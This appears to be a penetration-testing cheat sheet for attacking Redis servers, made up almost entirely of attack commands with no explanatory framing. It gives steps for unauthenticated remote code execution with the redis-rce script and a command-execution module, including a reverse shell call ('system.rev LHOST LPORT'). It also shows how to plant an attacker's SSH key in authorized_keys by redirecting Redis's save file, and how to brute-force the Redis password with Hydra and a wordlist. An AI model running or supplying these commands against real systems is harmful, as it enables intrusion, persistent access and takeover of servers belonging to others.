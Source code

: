 # Redis

- Authenticate Redis
```
redis-cli -h 192.168.181.69 -p 6379
```

- Configuration File Default Location (`requirepass`)
```
/etc/redis/redis.conf
```


## Redis 4.x / 5.x - Unauthenticated Code Execution [linux/redis/redis_replication_cmd_exec]

```
git clone https://github.com/Ridter/redis-rce
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand
make
python3 redis-rce.py -r <remote-ip> -p <port> -L <local-ip> -f ../RedisModules-ExecuteCommand/module.so
```

## Load Module
```
MODULE LOAD /path/to/module.so
system.exec "whoami"
system.rev LHOST LPORT
```
[HINT](https://www.youtube.com/watch?v=LlzpyGcA-ak&ab_channel=Tech69)

## Write to File
```
cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key
config set dir /var/lib/redis/.ssh
config set dbfilename "authorized_keys"
save
```


## Hydra
```
hydra -P /usr/share/wordlists/rockyou.txt redis://192.168.176.166
```
